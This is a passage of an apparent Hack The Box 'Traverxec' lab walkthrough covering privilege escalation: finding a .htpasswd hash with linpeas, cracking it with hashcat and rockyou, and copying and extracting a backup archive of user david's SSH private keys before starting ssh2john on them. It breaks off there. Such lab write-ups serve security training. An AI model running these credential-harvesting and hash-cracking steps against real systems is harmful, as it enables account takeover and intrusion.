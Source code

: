 	```
5. Found `.htpasswd` w/ `linpeas.sh` as well
	```
	╔══════════╣ Analyzing Htpasswd Files (limit 70)
	-rw-r--r-- 1 root bin 41 Oct 25  2019 /var/nostromo/conf/.htpasswd
	david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
	```

## David - Crack Hash
1. Identify the hash alogrithm
	```
	┌──(root💀kali)-[~/htb/traverxec/10.10.10.165/exploit]
	└─# nth --no-banner --file hash
	
	$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
	
	Most Likely
	MD5 Crypt, HC: 500 JtR: md5crypt
	Cisco-IOS(MD5), HC: 500 JtR: md5crypt
	FreeBSD MD5, HC: 500 JtR: md5crypt
	```
2. Crack hash w/ `hashcat`
	```
	┌──(root💀kali)-[~/htb/traverxec/10.10.10.165/exploit]
	└─# hashcat -a 0 -m 500 '$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/' /usr/share/wordlists/rockyou.txt --show
	$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me
	```
	- It took really long
3. Could not switch to `david` w/ `Nowonly4me`

## David - Found Backup SSH Keys
1. View files in `/home/david/public_www`
	```
	www-data@traverxec:/home/david/public_www$ find .
	.
	./index.html
	./protected-file-area
	./protected-file-area/backup-ssh-identity-files.tgz
	./protected-file-area/.htaccess
	www-data@traverxec:/home/david/public_www$
	```
	- `backup-ssh-identity-files.tgz`
2. Copy `backup-ssh` to `/tmp` & extract it
	```
	www-data@traverxec:/tmp$ cp backup-ssh-identity-files.tgz /tmp
	
	www-data@traverxec:/tmp$ tar -xf  backup-ssh-identity-files.tgz -v
	home/david/.ssh/
	home/david/.ssh/authorized_keys
	home/david/.ssh/id_rsa
	home/david/.ssh/id_rsa.pub
	www-data@traverxec:/tmp$
	```
4. Decrypt encrypted `id_rsa`
	```
	┌──(root💀kali)-[~/htb/traverxec/10.10.10.165/loot]
	└─# ssh2john id_rsa > john_id_rsa
	
